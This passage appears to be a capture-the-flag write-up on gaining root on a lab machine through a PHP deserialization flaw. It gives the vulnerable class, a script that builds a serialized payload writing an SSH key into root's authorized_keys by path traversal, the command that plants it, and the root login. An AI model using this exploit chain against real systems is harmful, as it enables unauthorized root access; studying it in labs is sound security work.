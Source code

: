 The file contains a `unserialize` call and the class _"playBuff"_ contains one of the magic methods `__wakeup()` that is vulnerable to **PHP Deserialization attack**:
```php
class playBuff
{
        public $logFile="/var/log/playbuff/logs.txt";
        public $logData="Updated";

        public function __wakeup()
        {
                file_put_contents(__DIR__."/".$this->logFile,$this->logData);
        }
}
// (...)
```

Lets create a new PHP file _(unserialize.php)_ that generates the object:
```php
class playBuff
{
        public $logFile="/var/log/playbuff/logs.txt";
        public $logData="Updated";

        public function __construct()
        {
                $this->logFile="../../../../../../root/.ssh/authorized_keys";
                $this->logData="ssh-rsa AAAAB3NzaC1yc2(...)";
        }
}

$obj = new playBuff();
echo serialize($obj);
echo "\n"
```

The variable _logData_ contains a self created SSH public key from `ssh-keygen`.

Running _unserialize.php_:
```
php unserialize.php
```

Object:
```
O:8:"playBuff":2:{s:7:"logFile";s:43:"../../../../../../root/.ssh/authorized_keys";s:7:"logData";s:562:"ssh-rsa AAAAB3NzaC1yc2(...)";}
```

Putting created object into _/var/lib/playbuff/merge.log_:
```
echo 'O:8:"playBuff":2:{s:7:"logFile";s:43:"../../../../../../root/.ssh/authorized_keys";s:7:"logData";s:562:"ssh-rsa AAAAB3NzaC1yc2(...)";}' > /var/lib/playbuff/merge.log
```

After the process runs again, it will put our SSH key into the _authorized_keys_ of root.
When that happened, we can login into the box as root!

```
ssh -i player 10.10.10.145
```
